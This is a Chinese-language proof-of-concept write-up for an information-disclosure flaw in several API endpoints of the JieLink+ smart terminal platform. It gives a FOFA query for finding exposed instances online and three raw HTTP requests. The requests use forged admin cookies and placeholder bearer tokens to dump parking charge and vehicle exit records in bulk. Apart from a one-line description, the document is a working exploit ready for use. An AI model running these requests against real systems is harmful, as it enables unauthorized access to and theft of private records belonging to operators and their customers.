## JieLink+智能终端操作平台多个接口处存在敏感信息泄露漏洞

JieLink+智能终端操作平台多个接口处存在敏感信息泄露漏洞，恶意攻击者可能会利用此漏洞修改数据库中的数据，例如添加、删除或修改记录，导致数据损坏或丢失。

## fofa

```yaml
title="JieLink+智能终端操作平台"
```
![image](https://github.com/user-attachments/assets/f63987e3-2d38-4ea7-b548-21755c28d450)

## poc

```
POST /report/ParkChargeRecord/GetDataList HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, \*/\*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Authorization: Bearer test
Cookie: JSESSIONID=test;UUID=1; userid=admin
X-Requested-With: XMLHttpRequest
Content-Length: 21
Origin: http://x.xx.xx.x:xxx
Connection: close
Referer: http://x.xx.xx.x:xxx/Report/ParkOutRecord/Index
Sec-GPC: 1
Priority: u=1

page=1&rows=20000
```

```
GET /Report/ParkCommon/GetParkInThroughDeivces HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, \*/\*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Origin:
Connection: close
Referer:
Sec-GPC: 1
```

```
GET /report/ParkOutRecord/GetDataList HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, \*/\*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Authorization: Bearer test
Cookie: JSESSIONID=test;UUID=1; userid=admin
X-Requested-With: XMLHttpRequest
Content-Length: 2
Origin:
Connection: close
Referer:
Sec-GPC: 1
Priority: u=1
```

![image-20240820094038330](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408200941857.png)
